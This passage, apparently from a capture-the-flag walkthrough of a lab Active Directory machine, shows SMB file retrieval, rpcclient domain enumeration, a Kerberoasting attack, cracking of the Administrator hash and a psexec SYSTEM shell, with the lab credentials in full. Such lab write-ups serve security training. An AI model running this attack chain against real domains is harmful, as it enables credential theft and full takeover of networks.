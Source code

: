 The file `user.txt` is found and downloaded:

```bash
smbmap -H 10.10.10.100 -u 'SVC_TGS' -p 'GPPstillStandingStrong2k18' --download Users/SVC_TGS/Desktop/user.txt
```

✅ **User flag obtained**

---

## 3. Domain Enumeration

### 3.1 Enumerate Users

```bash
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomusers'
```

### 3.2 Enumerate Groups

```bash
rpcclient -U "SVC_TGS%GPPstillStandingStrong2k18" 10.10.10.100 -c 'enumdomgroups'
```

---

## 4. Kerberos SPN Attack

### 4.1 Enumerate SPNs

```bash
impacket-GetUserSPNs active.htb/SVC_TGS:GPPstillStandingStrong2k18 -request
```

A TGS is retrieved with the hash of the `Administrator` user.

### 4.2 Crack the Hash

Save the hash in a file named `hash` and run:

```bash
john --wordlist=/usr/share/wordlists/rockyou.txt --format=krb5tgs hash
```

**Password found:** `Ticketmaster1968`

### 4.3 Validate Administrator Access

```bash
crackmapexec smb 10.10.10.100 -u 'Administrator' -p 'Ticketmaster1968'
```

**Result:** The `Administrator` account is valid and fully compromised (Pwn3d).

### 4.4 Remote Access via psexec

Since WinRM is closed, `psexec` is used:

```bash
psexec.py active.htb/Administrator:Ticketmaster1968@10.10.10.100 cmd.exe
```

A remote shell is obtained as `NT AUTHORITY\SYSTEM`.

✅ **Root flag obtained**

---

# ✅ MACHINE COMPLETE